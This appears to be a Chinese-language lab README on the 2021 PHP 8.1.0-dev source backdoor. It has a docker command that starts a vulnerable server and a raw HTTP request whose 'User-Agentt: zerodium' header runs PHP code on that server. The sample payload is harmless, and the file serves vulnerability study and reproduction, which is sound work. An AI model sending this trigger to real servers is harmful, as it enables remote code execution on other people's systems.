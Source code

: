 # PHP 8.1.0-dev 开发版本后门事件

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

参考链接：

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## 漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker compose up -d
```

环境启动后，服务运行在`http://your-ip:8080`。

## 漏洞复现

发送如下数据包，可见代码`var_dump(233*233);`成功执行：

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)
